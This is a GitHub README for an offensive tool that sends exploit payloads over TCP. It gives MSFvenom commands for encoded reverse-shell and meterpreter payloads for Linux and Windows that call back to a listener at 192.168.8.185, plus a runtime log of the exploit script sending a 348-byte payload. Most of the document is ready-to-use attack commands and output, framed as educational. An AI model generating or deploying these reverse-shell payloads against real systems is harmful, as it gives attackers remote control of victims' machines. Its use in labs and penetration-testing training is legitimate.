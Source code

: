 # Send TCP Payload

Send a payload through TCP.

Tested on Kali Linux v2023.1 (64-bit).

Made for educational purposes. I hope it will help!

## How to Run

**Change the IP address, port number, and payload inside the scripts as necessary.**

Open your preferred console from [/src/](https://github.com/ivan-sincek/send-tcp-payload/tree/master/src) and run the following Bash command:

```fundamental
python3 exploit.py
```

## JMP ESP

To do.

## Generate a Reverse Shell Payload

To generate a reverse shell payload for `Linux OS`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform linux -a x86 -e x86/shikata_ga_nai -p linux/x86/shell_reverse_tcp LHOST=192.168.8.185 PORT=9000 EXITFUNC=thread -f python -b \x00\x0a\x0d\xff

msfvenom --platform linux -a x64 -e x64/xor -p linux/x64/shell_reverse_tcp LHOST=192.168.8.185 PORT=9000 EXITFUNC=thread -f python -b \x00\x0a\x0d\xff

msfvenom --platform linux -a x86 -e x86/shikata_ga_nai -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.8.185 PORT=9000 EXITFUNC=thread -f python

msfvenom --platform linux -a x64 -e x64/xor -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 PORT=9000 EXITFUNC=thread -f python
```

To generate a reverse shell payload for `Windows OS`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/shikata_ga_nai -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f python -b \x00\x0a\x0d\xff

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f python -b \x00\x0a\x0d\xff

msfvenom --platform windows -a x86 -e x86/shikata_ga_nai -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f python

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f python
```

## Runtime

```fundamental
┌──(root💀kali)-[~/Desktop]
└─# python3 exploit.py
Connecting to the target 192.168.8.185:9000
Sending the payload... Size in bytes: 348

Waiting for the response...
Waiting for the response timed out
No response has been received or is empty
```
